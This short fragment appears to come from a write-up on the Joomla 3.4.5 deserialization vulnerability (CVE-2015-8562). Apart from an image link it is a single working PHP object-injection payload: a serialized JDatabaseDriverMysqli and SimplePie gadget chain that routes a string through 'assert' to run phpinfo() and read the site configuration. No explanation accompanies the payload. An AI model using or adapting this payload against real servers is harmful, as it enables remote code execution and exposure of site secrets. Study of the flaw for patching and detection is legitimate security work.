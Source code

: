 ![](./resource/(CVE-2015-8562)Joomla3.4.5反序列化漏洞/media/rId25.png)

    123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}?
